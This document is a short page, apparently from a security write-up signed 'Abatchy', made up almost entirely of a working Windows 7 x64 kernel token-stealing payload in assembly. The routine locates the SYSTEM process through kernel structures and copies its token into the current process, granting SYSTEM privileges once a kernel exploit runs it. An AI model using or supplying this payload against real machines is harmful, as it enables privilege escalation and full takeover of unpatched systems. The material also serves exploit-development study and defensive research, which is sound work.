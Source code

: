 #### Token Stealing Payload Windows 7 x64
```nasm
.code
PUBLIC GetToken
GetToken   proc

; Start of Token Stealing Stub
xor rax, rax                    ; Set ZERO
mov rax, gs:[rax + 188h]        ; Get nt!_KPCR.PcrbData.CurrentThread
                                ; _KTHREAD is located at GS : [0x188]

mov rax, [rax + 70h]            ; Get nt!_KTHREAD.ApcState.Process
mov rcx, rax                    ; Copy current process _EPROCESS structure
mov r11, rcx                    ; Store Token.RefCnt
and r11, 7

mov rdx, 4h                     ; WIN 7 SP1 SYSTEM process PID = 0x4

SearchSystemPID:
mov rax, [rax + 188h]           ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
sub rax, 188h
cmp[rax + 180h], rdx            ; Get nt!_EPROCESS.UniqueProcessId
jne SearchSystemPID

mov rdx, [rax + 208h]           ; Get SYSTEM process nt!_EPROCESS.Token
and rdx, 0fffffffffffffff0h
or rdx, r11
mov[rcx + 208h], rdx            ; Replace target process nt!_EPROCESS.Token
                                ; with SYSTEM process nt!_EPROCESS.Token
; End of Token Stealing Stub

GetToken ENDP
end
```
---

*\-Abatchy*